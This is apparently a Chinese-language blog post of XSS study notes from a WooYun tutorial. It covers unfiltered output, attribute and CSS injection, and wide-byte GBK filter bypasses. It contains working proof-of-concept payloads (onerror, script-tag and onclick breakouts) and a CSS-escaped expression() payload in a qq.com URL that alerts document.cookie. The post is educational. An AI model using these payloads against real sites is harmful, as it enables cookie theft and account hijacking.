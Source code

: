 ```yaml
---
title: XSS学习笔记3
time: 2016.02.03 10:47:00
layout: post
tags:
- 信息安全
- Web
- XSS
excerpt: 学习心伤的瘦子的乌云XSS教程，通过例子，实例学习XSS。
    
---
```

### 0x01无过滤，输出在标签外
XSS的存在，必须涉及输入和输出。

也因此，过滤XSS一般在输入层或输出层过滤

对于没有任何过滤的，我们只要构造恶意代码前，将<,>""闭合即可。

这种漏洞的一般模型：


	<HTML标签></HTML标签>
	[输出]
	<HTML标签></HTML标签>

	或

	<HTML标签>[输出]</HTML标签>


payload：
	
	<img src=1 onerror=alert(1);>
在JS中，若遇到没有过滤的情况：

模型：
	
	<script>...[输出]...</script>

	<style>...[输出]...</script>

一般payload可以为：
	
	/><script>alert(1);</script>
	eval('alert(1)');void
![示例](http://wooyun.org/upload/201212/13142159aee108c1178a955e6f282cf1452a48ee.jpg)

---
### 0x02输出在标签内
比如：
	
	<input value="输出"> 、 <img onload="...[输出]..."> ，<body style="...[输出]..."> 

一种典型的例子就是：

	http://xxxx.com/search.php?word=test
	源码：<input type="text" value="test" />
对于上面的例子，如果没有过滤"，我们就可以构造下面这个payload

	test" onclick="alert(1)"
	输入后，源码变成：
	<input type="text" value="test" onclick＝"alert(1)"/>
这样就能xss
但是，大多数网站会对"进行过滤编码，编码成
	
	&quot;
这样我们先前对利用代码就失效了。

还一种例子是，当输出在
	
	<body style="[here]">
时，如
![image](http://wooyun.org/upload/201212/13152306bb005590e7b2859f5b157234729f5c32.jpg)

此时，就算代码过滤了“，但若其没有过滤\，我们就可以利用css编码＋expression来构造利用语句了。（如e可以编码成\65 \065 \000065）

其源码：

	http://follow.v.t.qq.com/index.php?c=follow&a=index&appkey=801004516&bg=我是一个兵,爱国爱人民&hsize=80&name=Zhanglifenft,chengyizhong,xiangyang20112007,linchufang,leonardoit,linchufang,qingfengxu6685,zhouzhichen001,yuguoming-ruc,luomingtitan,bjwbgq,kezuozongbianji,weibotalk,lee007,jxzhongweizhi,lihaipengtx
	
构造后：

	http://follow.v.t.qq.com/index.php?c=follow&a=index&appkey=801004516&bg=;w:expr\65ssion\28%20eval\28\27\69\66\28\21\77\69\6e\64\6f\77\2e\78\29\7b\61\6c\65\72\74\28\64\6f\63\75\6d\65\6e\74\2e\63\6f\6f\6b\69\65\29\3b\77\69\6e\64\6f\77\2e\78\3d\31\7d\27\29\29&hsize=80&name=Zhanglifenft,chengyizhong,xiangyang20112007,linchufang,leonardoit,linchufang,qingfengxu6685,zhouzhichen001,yuguoming-ruc,luomingtitan,bjwbgq,kezuozongbianji,weibotalk,lee007,jxzhongweizhi,lihaipengtx

便能成功弹出窗口。（注，现在只能在IE6、7下触发，其他浏览器都修复了这个bug）


还一个典型例子：

	<HTML标签 onXXXX="...[输出在这里].."> 的例子。

	<a href="javascript:[输出在这里]">xxxx </a> 的例子。

这个输出点可以执行js代码，我们一般会构造<script>[输出]</script>。但，若其被过滤，则没有非常好的方法。不过，有时我们可以考虑通过HTML实体编码来绕过。（这个例子具体参考：[link](http://wooyun.org/bugs/wooyun-2010-015963)）

---
### 0x03 宽子节绕过
宽字节一般用于sql注入，这里也可以用来绕过一些XSS过滤器。
宽字节的详细介绍可以参考：[https://www.91ri.org/8611.html](https://www.91ri.org/8611.html)
简略讲就是：对于％df％5c，％5c是\符号，GBK编码，它的编码范围是0x8140~0xFEFE（不包括xx7F），在遇到%df(ascii(223)) >ascii(128)时系统会自动拼接%5c，因此吃掉‘\’，而%27、%20小于ascii(128)的字符就保留了。注意：gb2312是不能吃掉％5c的，即\
具体例子可参考：[link](http://wooyun.org/bugs/wooyun-2010-015969)
### 参考
1. [http://wooyun.org/bugs/wooyun-2010-015959](http://wooyun.org/bugs/wooyun-2010-015959)
2. [http://wooyun.org/whitehats/心伤的瘦子/type/1/page/1](http://wooyun.org/whitehats/心伤的瘦子/type/1/page/1)
3. https://www.91ri.org/8611.html
